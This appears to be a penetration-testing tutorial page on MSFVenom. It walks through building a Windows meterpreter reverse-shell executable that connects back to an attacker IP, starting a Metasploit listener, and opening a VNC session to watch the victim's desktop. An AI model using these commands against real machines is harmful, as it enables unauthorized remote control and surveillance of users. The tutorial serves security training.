 ```yaml
---
path: "/tutorials/securitypentesttools/msfvenom"
date: "2020-04-06"
title: "MSFVenom"
---
```


MSFVenom is a tool used to create malicious payloads for the Metasploit framework. The Metasploit framework is a tool for developing and executing remote exploits on a vulnerable target. Tools within the framework allow you to complete various stages of a penetration test.

####Establishing a VNC Session
MSFVenom can be used to create lots of different types of payload. One of these can be used to establish a VNC session on a remote host. Virtual Network Computing (VNC) is a system that allows remote graphical connections to a host, this allows you to use the device remotely as though you were sitting in front of it. There are a number of VNC variants offering different features. Establishing a malicious VNC session on a target machine gives you a good foothold in a target network.

Generating a payload is simple enough:

```bash
msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -f exe LHOST=<attackerIP> LPORT=<myPort> -o /root/Desktop/evil.exe
```
* *-p* - Specifies the payload we'd like to use. There are a large number of payloads to choose from.
* *--platform* - This is where you choose the platform the payload is for. Use the man page to discover the available payloads.
* *-a* - Architecture the exploit will run on.
* *-f* - The format of the output file
* *LHOST* - For this exploit this is how you specify the IP address of the listening machine
* *LPORT* - Similar to the above this is how you specify the port the listener will listen on.
* *-o* - The name and location of the output file.

This will generate an exe file that can run on Windows. 

We'll now start the listener on our attacker machine.

```bash
msfconsole
use multi/handler
set payload windows/meterpreter/reverse_tcp
set LHOST <attackerIP>
set LPORT <myPort>
exploit
```

The listener is now setup.

During a normal penetration test you would have to find a way to get the file onto a target machine, this is the tricky part but I won't be telling you how to do it.

Once the user runs your exe file the system will be compromised. You'll see that the listener opens a meterpreter session and displays the IP and prot of the listener and the victim.

Now we can use the established connection to tamper with the victim machine.

```bash
session -i 1
sysinfo
run vnc
```
* *session -i 1* - This ensures we are using session 1.
* *sysinfo* - Displays basic information about the system the session is open on.
* *run vnc* - Opens up a VNC session on the infected machine. Once this command is run you will see a screen appear showing the user's desktop.

**N.B** The exploit that we have created using MSFVenom will likely be caught by most standard antivirus tools. The are methods to reduce the chance of detection, but I won't go into detail for this section.